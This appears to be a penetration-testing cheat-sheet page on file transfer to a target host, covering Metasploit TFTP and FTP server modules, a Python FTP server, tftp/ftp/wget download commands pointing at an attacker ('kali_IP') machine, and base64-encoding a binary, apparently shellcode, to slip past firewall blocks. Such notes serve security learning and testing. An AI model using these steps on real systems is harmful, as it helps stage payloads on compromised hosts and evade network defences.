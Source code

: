 ```yaml
---
layout: default
title: Other Transfer
permalink: /other_transfer/
---
```


## TFTP

TFTP (Trivial File Transfer Protocol)	TFTP uses UDP for simple file transfers, commonly used by older Windows systems and others.

Use metaspoit framework:
```
use auxiliary/server/tftp
set srvhost 192.168.31.141
set tftproot /root/raj
run
```

```
tftp -i 192.168.31.219 GET ignite.txt
dir
```

## FTP

Use metasploit framework:
```
msfconsole -q
use auxiliary/server/ftp
set srvhost 192.168.31.141
set ftproot /root/raj
set ftpuser raj
set ftppass 123
run
```

```
ftp 192.168.31.141
dir
get ignite.txt
```

`python3 -m pyftpdlib -w -p 21 -u ignite -P 123`

```
ftp 192.168.31.141
get ignite.txt
put C:\Users\raj\avni.txt
```

or:
`wget ftp://<kali_IP>:<Port_number>/<file> (-O /path/to/dir/<file>)`


# Using Base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it.

```
base64 binary_file -w 0
```
Then:
```
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > file
```
# Validating
```
md5sum file
```

